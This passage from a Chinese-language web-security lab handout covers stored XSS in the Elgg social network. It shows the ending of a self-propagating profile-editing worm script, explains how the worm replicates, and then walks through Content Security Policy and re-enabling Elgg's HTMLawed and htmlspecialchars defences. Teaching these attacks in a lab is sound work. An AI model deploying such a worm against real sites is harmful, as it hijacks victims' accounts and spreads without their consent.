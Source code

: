 ```
        var sendurl = "http://www.seed-server.com/action/profile/edit"
        var samyGuid=56;
        if(elgg.session.user.guid!=samyGuid){
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

需要注意的是，innerHTML（第2行）只提供代码的内部部分，不包括周围的<script>标签。我们只需添加起始标签<script id="worm">（第1行）和结束标签</script>（第4行），即可形成恶意代码的相同副本。

!!! info "提示 :sparkles:"
    当通过HTTP POST请求发送数据，且Content-Type设置为application/x-www-form-urlencoded时（这是我们的代码中所使用的类型），数据也应该进行编码。这种编码方案称为URL编码，它将数据中的非字母数字字符替换为%HH，即一个百分号和两个表示字符ASCII码的十六进制数字。第行中的encodeURIComponent()函数用于对字符串进行URL编码。


请将samy作为攻击者，先感染alice再感染boby，观察结果并截图贴到报告中，并思考上述代码的内容为什么能够觉有自我传播功能。

## 任务7：使用CSP（内容安全策略）抵御XSS攻击

跨站脚本攻击（XSS）漏洞的根本问题是HTML允许JavaScript代码与数据混合。因此，为了解决这个根本问题，我们需要将代码与数据分离。在HTML页面中包含JavaScript代码有两种方式，一种是内联方式，另一种是链接方式。

内联方式直接将代码嵌入页面内，而链接方式则将代码放在外部文件中，然后从页面内部链接到它。

内联方式是导致跨站脚本攻击（XSS）漏洞的罪魁祸首，因为浏览器不知道代码最初来自哪里：是来自可信任的Web服务器还是来自不可信任的用户？没有这些知识，浏览器就不知道哪些代码是安全的，哪些是危险的。链接方式为浏览器提供了一个非常重要的信息，即代码的来源。然后，网站可以告诉浏览器哪些来源是可信的，这样浏览器就知道哪段代码是安全的。尽管攻击者也可以使用链接方式在输入中包含代码，但他们无法将其代码放置在那些可信任的位置。

网站如何告诉浏览器哪个代码源是可信的，这是通过使用一种称为内容安全策略（CSP）的安全机制来实现的。这种机制是专门为击败跨站脚本攻击（XSS）和点击劫持攻击而设计的。它已成为一种标准，现在大多数浏览器都支持它。CSP不仅限制JavaScript代码，还限制其他页面内容，例如限制图片、音频和视频的来源，以及限制页面是否可以放在iframe中（用于击败点击劫持攻击）。在这里，我们将只关注如何使用CSP来击败跨站脚本攻击（XSS）。


Elgg确实有内置的对抗措施来防御XSS攻击。我们已经停用并注释掉了这些对抗措施，以便攻击能够起作用。Elgg网络应用程序上有一个自定义的安全插件HTMLawed，激活后，它会验证用户输入并移除输入中的标签。这个特定的插件在elgg/engine/lib/input.php文件的function filter tags中注册。

要启用对抗措施，请以管理员身份登录应用程序，转到“帐户”->“管理”（屏幕右上角）->“插件”（右侧面板），然后在页面顶部的过滤器选项中点击“安全和垃圾邮件”。您应该会在下面找到HTMLawed插件。点击“激活”以启用对抗措施。

除了Elgg中的HTMLawed 1.9安全插件外，还有另一种内置的PHP方法称为htmlspecialchars()，该方法用于对用户输入中的特殊字符进行编码，例如将“<”编码为&lt，“>”编码为&gt等。请转到/var/www/XSS/Elgg/vendor/elgg/elgg/views/default/output/，并在text.php、url.php、dropdown.php和email.php文件中找到函数调用htmlspecialchars。在每个文件中取消注释相应的“htmlspecialchars”函数调用。

一旦您知道如何启用这些对抗措施，请执行以下操作（请不要更改任何其他代码，并确保没有语法错误）：

1、只激活HTMLawed对抗措施，不激活htmlspecialchars；访问任意一个受害者的个人资料，并在报告中描述你的观察结果。

2、同时启用两项对抗措施；访问任意一个受害者的个人资料，并在报告中描述你的观察结果。